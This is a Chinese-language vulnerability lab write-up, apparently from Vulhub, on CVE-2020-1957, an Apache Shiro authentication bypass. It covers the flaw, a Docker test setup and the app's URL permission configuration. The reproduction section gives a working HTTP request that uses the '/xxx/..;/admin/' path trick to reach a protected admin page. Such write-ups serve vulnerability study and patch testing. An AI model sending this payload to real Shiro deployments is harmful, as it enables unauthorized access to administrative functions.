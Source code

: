 # Apache Shiro 认证绕过漏洞 CVE-2020-1957

## 漏洞描述

Apache Shiro是一款开源安全框架，提供身份验证、授权、密码学和会话管理。Shiro框架直观、易用，同时也能提供健壮的安全性。

在Apache Shiro 1.5.2以前的版本中，在使用Spring动态控制器时，攻击者通过构造`..;`这样的跳转，可以绕过Shiro中对目录的权限限制。

参考链接：

- https://github.com/apache/shiro/commit/3708d7907016bf2fa12691dff6ff0def1249b8ce#diff-98f7bc5c0391389e56531f8b3754081aL139
- https://xz.aliyun.com/t/8281
- https://blog.spoock.com/2020/05/09/cve-2020-1957/

## 环境搭建

Vulhub执行如下命令启动一个搭载Spring 2.2.2与Shiro 1.5.1的应用：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`即可查看首页。

这个应用中对URL权限的配置如下：

```
@Bean
public ShiroFilterChainDefinition shiroFilterChainDefinition() {
    DefaultShiroFilterChainDefinition chainDefinition = new DefaultShiroFilterChainDefinition();
    chainDefinition.addPathDefinition("/login.html", "authc"); // need to accept POSTs from the login form
    chainDefinition.addPathDefinition("/logout", "logout");
    chainDefinition.addPathDefinition("/admin/**", "authc");
    return chainDefinition;
}
```

## 漏洞复现

直接请求管理页面`/admin/`，无法访问，将会被重定向到登录页面：

```
GET /admin HTTP/1.1
Host: your-vps-ip:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

![image-20220301100715129](images/202203011007191.png)

构造恶意请求`/xxx/..;/admin/`，即可绕过权限校验，访问到管理页面：

```
GET /xxx/..;/admin/ HTTP/1.1
Host: your-vps-ip:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

![image-20220301100858801](images/202203011008871.png)



